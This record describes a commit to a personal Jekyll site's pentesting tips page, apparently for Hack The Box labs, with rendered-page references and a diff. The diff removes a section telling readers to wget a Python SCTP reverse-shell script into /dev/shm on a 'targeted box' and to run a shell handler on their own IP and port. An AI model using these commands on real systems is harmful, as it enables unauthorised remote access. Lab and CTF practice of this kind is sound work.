

Before and after one commit to Mushi-mushi/mushi-mushi.github.io, a Jekyll site: the page built from tips/index.markdown, in a window 1280 px wide and 900 px high, scrolled down 1074 px. Shown: the whole window, without its empty margins (308-971 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Update index.markdown

```diff
--- a/tips/index.markdown
+++ b/tips/index.markdown
@@ -65,17 +65,6 @@ export TERM=xterm256-color
 stty rows number_of_row columns number_of_columns
 {% endhighlight %}
 
-Another option is to directly push a python pty shell to the targeted box:
-{% highlight bash%}
-wget https://raw.githubusercontent.com/Mushi-mushi/python-pty-shells/master/sctp_pty_backconnect.py -o /dev/shm/.shell.py
-{% endhighlight %}
-configure the shell with the correct IP and port then get the shell handler
-{% highlight bash%}
-wget https://raw.githubusercontent.com/Mushi-mushi/python-pty-shells/master/sctp_pty_shell_handler.py -o /root/HTB/handler.py
-python handler.py -b YourIP:Youropenedport
-{% endhighlight %}
-<sup>Shell scripts from [infodox][link11]</sup>
-
 Enjoy!
 
 [Back to the top](#header)
```
